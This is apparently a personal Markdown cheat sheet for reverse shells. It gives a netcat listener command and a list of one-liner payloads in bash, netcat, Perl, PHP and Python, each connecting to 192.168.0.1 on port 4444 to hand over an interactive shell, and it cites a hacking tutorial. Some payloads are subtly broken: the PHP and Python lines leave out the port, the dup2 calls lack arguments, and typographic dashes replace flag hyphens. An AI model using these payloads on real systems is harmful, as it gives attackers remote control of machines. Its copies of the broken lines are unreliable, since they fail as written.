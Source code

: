 ```yaml
---
created: 2024-06-15T20:07
updated: 2024-06-24T21:00
---
```


## Listen for target

```sh
nc –lvp 4444
```

## Payloads

```sh
bash -c 'sh -i >& /dev/tcp/192.168.0.1/4444 0>&1'
bash -i >& /dev/tcp/192.168.0.1/4444 0>&1
nc 192.168.0.1 4444 –e /bin/bash
nc -lvp 4444 -e /bin/sh

perl -e 'use Socket;$i="192.168.0.1″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

php -r '$sock=fsockopen("192.168.0.1");exec("/bin/sh -i <&3 >&3 2>&3");'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1"));os.dup2(s.fileno()); os.dup2(s.fileno()); os.dup2(s.fileno());p=subprocess.call(["/bin/sh","-i"]);'
```

> with reference to [Hacking with Netcat part 2: Bind and reverse shells - Hacking Tutorials](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
